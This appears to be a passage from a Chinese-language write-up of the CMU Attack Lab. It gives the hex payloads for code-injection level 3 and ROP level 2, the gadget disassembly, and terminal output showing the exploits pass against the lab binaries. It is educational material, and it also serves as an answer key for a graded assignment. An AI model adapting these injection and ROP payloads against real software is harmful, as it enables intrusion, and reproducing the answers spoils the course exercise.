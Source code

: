 答案：

```text
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```

```shell
niebelungen@ubuntu:~/Desktop/target1$ ./hex2raw < test.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61
```

## ROP-Level2

使用gadget完成level2。gadget限定了范围：0x401994-0x401ab2

```assembly
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq  
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3  
```

这里89 c7 90 c3==>`mov rdi,rax;nop;ret`，下面的58 90 c3\==>`pop rax;nop;ret`

这两个gadget可以让我们控制rdi的值。

```text
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
ab 19 40 00 00 00 00 00 /*pop rax ; nop ; ret*/
fa 97 b9 59 00 00 00 00 /*cookie*/
c5 19 40 00 00 00 00 00 /*mov rdi, rax ; nop ;ret*/
ec 17 40 00 00 00 00 00 /*touch2*/
```

```shell
niebelungen@ubuntu:~/Desktop/target1$ ./hex2raw < test.txt | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```
